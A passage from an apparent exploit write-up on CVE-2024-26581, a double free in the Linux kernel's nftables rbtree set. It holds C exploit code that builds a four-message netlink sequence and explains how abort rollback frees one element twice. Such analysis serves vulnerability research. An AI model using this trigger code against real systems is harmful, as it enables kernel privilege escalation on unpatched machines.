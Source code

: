 The key to realizing this idea lies in the implementation of the function `rbtree_remove`:
```c
static void nft_rbtree_remove(const struct net *net,
			      const struct nft_set *set,
			      const struct nft_set_elem *elem)
{
	struct nft_rbtree *priv = nft_set_priv(set);
	struct nft_rbtree_elem *rbe = elem->priv;

	write_lock_bh(&priv->lock);
	write_seqcount_begin(&priv->count);
	rb_erase(&rbe->node, &priv->root);
	write_seqcount_end(&priv->count);
	write_unlock_bh(&priv->lock);
}

```
This function removes the corresponding element from rbtree by calling `rb_erase`. This is no problem, but what happens if CVE-2024-26581 is triggered under special circumstances?

Let’s first review the steps to trigger this vulnerability on LTS slot:
```c
    //step2: trigger the vul
    //Now trigger the vul. We will kfree the heap of setelem_with_INTERVAL_END twice.
    *key1 = 0x58;
    msg_list[0] = new_setelem_with_INTERVAL_END_msg(table, rbtree_set, key1, 0x40);
    char *table_for_pad = "table for pad";

    msg_list[1] = new_table_with_udata_msg(table_for_pad, pad, 0x60);
    *key1 = 0x48;

    msg_list[2] = new_setelem_with_expiration_msg(table, rbtree_set, NULL, 0, obj_for_exp, key1, 0x40, NULL, 0, 0, 0xffff000000000000);//gc here

    msg_list[3] = new_setelem_msg(table, hash_set, NULL, 0, NULL, NULL, 0, NULL, 0);//trigger __nf_tables_abort
    send_msg_list(socket, msg_list, 4);
``` 
That's what will happen after we send the message list:

- msg[0]: Insert an element with `INTERVAL_END` into `rbtree_set`
- msg[1]: Create a table with `udata`
- msg[2]: Insert an element into `rbtree_set` with triggering `nft_rbtree_gc_elem`. Finally the element we create in msg[0] will be removed by `rb_erase` and destroy by `nft_set_gc_batch_complete`
- msg[3]: Error message and finally trigger `__nf_tables_abort`. All previous messages will be rolled back:
  - The element created in msg[2] will be removed by function `nft_rbtree_remove` and will be freed by function `nft_set_elem_destroy`
  - The table created in msg[1] will be removed and freed
  - The element created in msg[0] will be removed by function `nft_rbtree_remove` and will be freed by function `nft_set_elem_destroy` again!
  
So we can remove and free an element of rbtree twice by CVE-2024-26581. 
